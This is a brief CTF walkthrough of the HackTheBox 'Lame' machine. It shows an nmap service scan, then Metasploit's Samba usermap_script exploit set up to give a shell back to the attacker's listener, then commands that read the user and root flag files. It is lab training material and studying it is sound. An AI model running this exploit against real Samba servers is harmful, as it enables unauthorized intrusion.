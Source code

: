 # LAME - Machine

IP 10.10.10.3 
Easy Linux

## Contents

- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitaton](#exploitation)
- [Walkthrough](#walkthrough)

## Tools

- nmap
- Metasploit

## Enumeration

- At first we use nmap (Network Mapping tool) to scan the box ip. When we run it we got list of some open ports and services running on those ports. On the Lame box we can see, open ports and services are, port 21 for vsftpd 2.3.4, port 22 for SSH, port 129 and 445 for Samba smbd 3.X-4.X `nmap -sV 10.10.10.3`
- When we google about those running services to gather information about those services, we get Samba smbd 3.X is vulnerable and fortunately an metasploit module is there to exploit the service.

## Exploitation

- Using metasploit we can use the exploit to shell the box.

    ```bash
    use exploit/multi/samba/usermap_script
    msf exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
    msf exploit(multi/samba/usermap_script) > set lhost tun0
    msf exploit(multi/samba/usermap_script) > exploit 
    ```
  
- Now open home folder using terminal and find the user.txt.
   
  ```bash
  cd home
  ls
  cd makis
  ls
  cat user.txt
  ```

- Now goto root folder and find the root.txt.
  
  ```bash
  cd root
  ls
  cat root.txt
  ```

## Walkthrough

<a title="Lame HackTheBox 10.10.10.3 YouTube walkthrough" href="https://www.youtube.com/watch?v=sq0qVn3iLm0&list=PL6vr4adYIJuxZ6tzpWnpici8JX0sdPhwx&index=3" target="_blank">https://www.youtube.com/watch?v=sq0qVn3iLm0</a>


Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
